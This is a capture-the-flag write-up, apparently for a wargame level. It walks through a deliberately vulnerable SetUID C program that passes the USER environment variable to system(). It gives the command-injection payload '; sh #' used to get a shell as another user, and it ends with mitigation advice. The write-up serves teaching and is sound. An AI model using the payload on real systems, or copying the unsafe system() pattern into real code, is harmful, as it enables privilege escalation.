 

---
### 🧩 Challenge Insight

> This level contains a SetUID binary that constructs and executes a command using unfiltered input from the `USER` environment variable.  
> Your task is to identify how this leads to command injection and gain shell access as `flag02`.

**Login:** `level02 : level02`  
**Binary path:** `/home/flag02`

---

### 🧠 Code Review

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

💡 **Observation:**  
The program pulls the value of `$USER` from the environment and inserts it directly into a shell command — without sanitization.

This results in **command injection** vulnerability when the input contains shell metacharacters (`;`, `&&`, etc.).

---

### 🎯 Objective

Inject a malicious payload into the `USER` environment variable to spawn a shell as `flag02`, then retrieve the flag.

---

### 🔧 Exploitation Flow

#### 🧪 Step 1: Prepare the payload

```bash
export USER='; sh #'
```

- `;` ends the current command.
    
- `sh` spawns a new shell.
    
- `#` comments out the remaining string.
    

#### 🛠 Step 2: Execute the vulnerable binary

```bash
cd /home/flag02
./flag02
```

This runs:

```
/bin/echo ; sh # is cool
```

Effectively giving us a shell running with the **EUID of flag02**.

---

### 🎯 Step 3: Capture the flag

```bash
getflag
```

✅ **Output:**

```
You have successfully executed getflag on a target account
```

---

### 📚 Lessons Learned

This level is a textbook example of **shell command injection via environment variables**. Trusting user-controlled inputs like `$USER` in shell command construction leads to direct system compromise.

🔐 **Mitigation Tip:**  
Avoid `system()` when possible. Use `execve()` with argument vectors or sanitize inputs before passing to shell commands.

---
